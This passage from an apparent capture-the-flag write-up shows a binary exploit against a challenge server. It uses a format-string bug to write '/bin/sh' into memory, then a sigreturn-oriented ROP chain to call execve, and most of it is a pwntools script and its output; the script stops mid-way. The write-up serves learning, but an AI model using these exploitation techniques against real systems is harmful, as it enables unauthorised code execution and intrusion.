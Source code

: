 ```

target.interactive()
```
And here is a snippet of the results:
```
c\x03`f\n>>> \n<<< You say'
b':                                        31f083b0cccccccc\x04`f\n>>> \n<<< You say'
b':                                                                                                            31f083b0ccccccc\x05`f\n>>> \n<<< You say'
[*] Switching to interactive mode
:                                                                                                 31f083b0ccccccc\x06f
>>>
<<< You say: /bin/sh
>>> $
```
We can officially write '/bin/sh' to the binary, so the SIGROP should now be viable.

### Pulling it All Together

At this point, the exploit is pretty simple to write, with the help of pwntools. First, I need to get '/bin/sh' in the writable area, as described above. Second, I write a small ROP chain that places 0xf in rax using the pop gadget, then calls syscall. Finally, I set up the stack so that the registers work out after the sigreturn to call execve('/bin/sh', 0, 0). To do this, I need to set rdi to the address that now contains '/bin/sh', rsi and rdx to 0, rax to 0x3b to specify the execve syscall, and rip to the syscall gadget so that it is jumped to immediately after the sigreturn. This would be difficult to set manually, especially with no ability to debug the program; fortunately, pwntools offers the ability to set up a stack frame in which register contents can be specified, and then the whole thing can be placed after the sigreturn syscall. The full script is below:
```
from pwn import *

target = remote('0.cloud.chals.io', 12655)

syscall = 0x4013bb
writable_area = 0x666000
pop_rax = 0x4013c5

def write_to_writable(string, writable_area):
    for i in range(len(string)):
        payload = b'%' + str(ord(string[i])).encode('ascii') + b'x%8$n' 
        payload += b'c' * (16 - len(payload))  + p64(writable_area + i)
        target.sendline(payload)
        print(target.recvuntil(b'You say'))

print(target.recvuntil(b'<<< Address of pop rax, ret    : 0x4013c5'))

write_to_writable('/bin/sh', writable_area)

#Just me checking that the write worked.
payload = b'%8$s' + b'\x00' * 12 + p64(writable_area)
target.sendline(payload)

print(target.recvuntil(b'You say'))

padding = b'a' * 40
payload = padding 
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(syscall)

context.arch = "amd64"

frame = SigreturnFrame()
```